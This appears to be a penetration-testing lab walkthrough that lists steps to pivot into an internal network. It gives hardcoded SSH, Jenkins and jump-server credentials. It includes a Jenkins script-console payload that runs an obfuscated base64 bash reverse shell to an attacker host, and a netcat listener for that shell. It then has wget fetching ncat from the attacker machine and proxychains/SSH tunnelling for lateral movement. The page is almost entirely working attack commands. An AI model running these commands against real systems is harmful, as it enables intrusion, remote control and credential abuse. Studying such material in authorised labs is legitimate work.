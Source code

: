 # Shortcut

- [Shortcut](#shortcut)

---

To get access to the internal network, do the following steps:

1) SSH tunnel on 192.168.8.3 (Credential: `iyer` / `Iyer@123`)

```
sudo -u brian ssh -N -D 9050 iyer@192.168.8.3
```

<br/>

2) Edit `/etc/proxychains.conf`. Make sure only socks4 is enabled.

```
socks4 127.0.0.1 9050
```

<br/>

3) With foxyproxy forwarding traffic to SOCK4 server 127.0.0.1:9050, login Jenkins (http://10.1.3.1:1234/) with the credential `autoadmin` / `Jenk!nsADMIN`

<br/>

4) Locally launch a netcat listener.

```
nc -nlvp 443
```

<br/>

5) On Jenkins, go to http://10.1.3.1:1234/script. Then use the following script to get a reverse shell:

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xMS80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

<br/>

6) On the reverse shell, get ncat (https://github.com/ZephrFish/static-tools/raw/master/ncat) from the local machine:

* Local:

```
python3 -m http.server 80
```

* Remote:
```
python -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp && wget http://192.168.100.11/ncat
```

<br/>

7) Create another HTTP proxy via SSH tunnel using ncat:

```
chmod +x ncat && ./ncat -l 4444 --proxy-type http &
```

```
ssh -R 4445:127.0.0.1:4444 brian@192.168.100.11
```

<br/>

8) Modify `/etc/proxychains.conf` to use the HTTP proxy:

```
nano /etc/proxychains.conf
```

Disable the sock4 proxy and add the following:
```
http 127.0.0.1 4445
```

<br/>

9) SSH to the jump server using `jump-admin` / `B@DB!tch`:

```
proxychains ssh jump-admin@10.1.1.4
```

<br/>

10) Use the Jump Server as socks4 proxy:

```
proxychains ssh -N -D 9051 jump-admin@10.1.1.4
```

<br/>

11) Change `/etc/proxychains.conf`:

```
nano /etc/proxychains.conf

sock4 127.0.0.1 9051
```

